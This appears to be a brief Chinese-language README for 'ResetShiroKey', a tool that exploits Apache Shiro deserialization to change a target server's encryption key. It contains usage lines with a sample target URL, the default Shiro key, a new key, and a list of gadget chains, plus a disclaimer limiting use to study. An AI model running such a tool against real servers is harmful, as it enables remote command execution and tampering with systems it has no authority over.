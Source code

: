 # ResetShiroKey
shiro命令执行动态修改key

免责声明：该工具仅用于学习交流使用，用于非法犯罪与作者概无关系。

jdk11环境

Usage: java -jar resetShiroKey.jar gadget target_url old_key new_key [proxy]

Usage: java -jar resetShiroKey.jar cc2 http://192.168.38.38/login.jsp kPH+bIxk5D2deZiIxcaaaA== 4A3VhmFLUs0KTA3Kprsdag== http:127.0.0.1:8080

Usage: Gadget have cc2 cc3 cck1 cck2 cb18
